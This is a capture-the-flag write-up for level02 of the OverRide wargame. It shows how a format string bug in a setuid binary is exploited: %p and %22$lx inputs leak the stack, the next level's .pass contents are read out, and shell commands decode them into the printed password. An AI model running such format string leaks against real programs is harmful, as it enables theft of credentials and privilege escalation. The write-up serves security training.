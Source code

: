 # level02

By looking at the code and with `file` command, we can see that the program is for x64 architecture:

```bash
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

The program read the `.pass` file of the next level. To debug it in gdb, we extract the program to another machine to debug it. We create a file in `home/users/level03`:

```bash
┌──(vagrant㉿kali)-[~]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" > /home/users/level03/.pass
```

The first `fgets` will be printed as the only one argument of `printf` if the password read in the `.pass` and the password passed as input don't match.

We try to print the stack, by passing modifiers as first input and empty string as second one:

```bash
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p     
--[ Password: 
*****************************************
 0x7fff8c03a8d0 (nil) 0xffffffff 0x2a (nil) 0x7fff8c03aad8 0x100000000 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x8 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x41 0x2520702520702520 0x2070252070252070 0x7025207025207025 does not have access!
```

As we know what contains the `.pass` file, we can see that its content begins to pop at the 22th element until the 27th.

We can know try to pop up the content of the `.pass` file. We use `l` for print a long-sized integer as we are in x64 architecture, and `x` to print the result in hex:

```bash
--[ Username: %22$lx %23$lx %24$lx %25$lx %26$lx %27$lx
--[ Password: 
*****************************************
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 0 does not have access!
```

Let's try to decode it. We first put it in file and reverse each 2 bytes:

```bash
level02@OverRide:~$ echo "756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d" > /tmp/test 
level02@OverRide:~$ dd conv=swab if=/tmp/test of=/tmp/result 2>/dev/null
level02@OverRide:~$ cat /tmp/result 
57e60525437386845414a4531637931573a7173475e4768553a45386e67485378433760566b493d4
```

We need then to reverse bytes order each 16 bytes and print the result as ASCII values:

```bash
level02@OverRide:~$ cat /tmp/result | fold -w 16 | rev | tr -d '\n' | xxd -r -p
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
